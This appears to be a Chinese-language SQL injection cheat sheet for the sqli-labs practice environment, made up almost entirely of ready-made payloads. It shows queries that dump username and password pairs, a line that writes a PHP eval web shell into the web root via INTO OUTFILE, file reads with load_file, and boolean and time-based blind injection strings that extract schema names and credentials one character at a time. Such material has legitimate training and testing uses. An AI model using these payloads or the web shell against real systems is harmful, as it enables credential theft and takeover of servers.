 ```sql
SELECT COUNT(*) FROM `security`.`users`
# 查看数据表中的数据
select concat_ws('@',username,password) from `security`.`users` limit 0,1
# 写入文件
select '<?php @eval($_POST["giantbranch"]);?>' into outfile 'D:\\phpStudy\\WWW\\sqli-labs\\Less-7\\Leaama.php'
# 导出文件
select load_file('D:\\xxx\\index.php') into outfile 'D:\\phpStudy\\WWW\\sqli-labs\\Less-7\\xx.txt'
# 直接获取当前数据库的字段
select table_name from information_schema.tables where table_schema=database() limit 0,1
```

## 布尔型盲注

```sql
# 查看数据库的库
and ascii(substr((select schema_name from information_schema.schemata LIMIT 4, 1),1,1))=53--+
# 查看数据库的表
and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' LIMIT 0, 1),1,1))=53,1,0)--+
# 查看数据库的列
and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' LIMIT 0, 1),1,1))=53,1,0)--+
# 查看数据库的数据的长度
and length((select concat_ws('@',username,password) from `security`.`users` limit 2,1))>8 --+
# 查看数据库的数据
and ascii(substr((select concat_ws('@',username,password) from `security`.`users` limit 0,1),1)) >1 --+
and if(ascii(substr((SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),1,1))>53,1,0)--+
# 完整的语句
SELECT if(ascii(substr((select concat_ws('@',username,password) from `security`.`users` limit 0,1),1,1))>53,1,0)
```

## 时间盲注

```sql
# 查看数据库的长度
and if(length((select database()))>10,sleep(10),0)--+
# 查看数据库的库
and if(ascii(substr((select schema_name from information_schema.schemata LIMIT 4, 1),1,1))=53,sleep(10),0)--+
and if(substr((select schema_name from information_schema.schemata LIMIT 4, 1),1,1)='s',sleep(10),0)--+
# 查看数据库的表
and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' LIMIT 0, 1),1,1))>53,sleep(10),0)--+
and if(substr((select table_name from information_schema.tables where table_schema='security' LIMIT 0, 1),1,1)='a',sleep(10),0)--+
# 查看数据库的列
and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' LIMIT 0, 1),1,1))>53,sleep(10),0)--+
and if(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' LIMIT 0, 1),1,1)='a',sleep(10),0)--+
# 查看数据库的数据的长度
and if(length((select concat_ws('@',username,password) from `security`.`users` limit 2,1))>8,sleep(10),0)--+
# 查看数据库的数据
and if(ascii(substr((SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),1,1))>53,sleep(10),0)--+
```
